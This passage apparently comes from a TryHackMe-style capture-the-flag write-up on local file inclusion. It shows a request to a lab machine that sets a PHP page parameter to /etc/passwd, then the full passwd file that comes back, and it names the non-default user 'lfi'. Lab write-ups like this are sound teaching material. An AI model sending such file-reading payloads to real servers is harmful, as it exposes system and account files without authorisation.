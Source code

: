 `You included home.html`

5. You can also read other system files. For example, you can read the passwd file. Type /etc/passwd in the parameter to read it. It should be similar to this:

![](https://i.imgur.com/DPIHVJp.png)

`No answer needed`

6. What user that it's not by default there is present?

`http://10.10.141.166/lfi/lfi.php?page=/etc/passwd`

`view-source:http://10.10.141.166/lfi/lfi.php?page=/etc/passwd`

```
File included: /etc/passwd<br><br><br>Local file to be used: /etc/passwd<br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
lfi:x:1000:1000:THM,,,:/home/lfi:/bin/bash
```
